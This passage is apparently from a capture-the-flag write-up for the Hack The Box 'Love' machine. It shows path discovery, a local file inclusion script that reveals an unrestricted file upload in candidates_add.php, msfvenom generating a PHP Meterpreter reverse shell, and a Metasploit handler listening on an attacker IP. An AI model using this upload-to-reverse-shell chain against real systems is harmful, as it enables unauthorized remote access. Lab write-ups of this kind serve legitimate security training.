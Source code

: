 
#### Discover local absolute directory path to `love.htb` admin panel application
`/admin/includes/` path has been discovered with `feroxbuster`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ curl -s http://love.htb/admin/includes/config_modal.php | grep "No such file"
<b>Warning</b>:  parse_ini_file(config.ini): failed to open stream: No such file or directory in <b>C:\xampp\htdocs\omrs\admin\includes\config_modal.php</b> on line <b>13</b><br />
```

#### Identify arbitrary file upload vulnerability in `candidates_add.php`
Vulnerability sits in line 11.
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ ./lfi.sh C:/xampp/htdocs/omrs/admin/candidates_add.php | cat -n 
<SNIP>
     9                  $filename = $_FILES['photo']['name'];
    10                  if(!empty($filename)){
    11                          move_uploaded_file($_FILES['photo']['tmp_name'], '../images/'.$filename);
    12                  }
<SNIP>
```

### Gain initial foothold wih `php/meterpreter/reverse_tcp` reverse shell uploaded using vulnerability in `candidates_add.php`

#### Generate `php/meterpreter/reverse_tcp` reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ msfvenom -p php/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f raw \
    -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
Saved as: shell.php
```

#### Start Metasploit with `php/meterpreter/reverse_tcp` handler and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Love]
└─$ msfconsole -q -x "use exploit/multi/handler;  set LHOST tun0; set LPORT 4444; set payload php/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => php/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.5:4444 
```
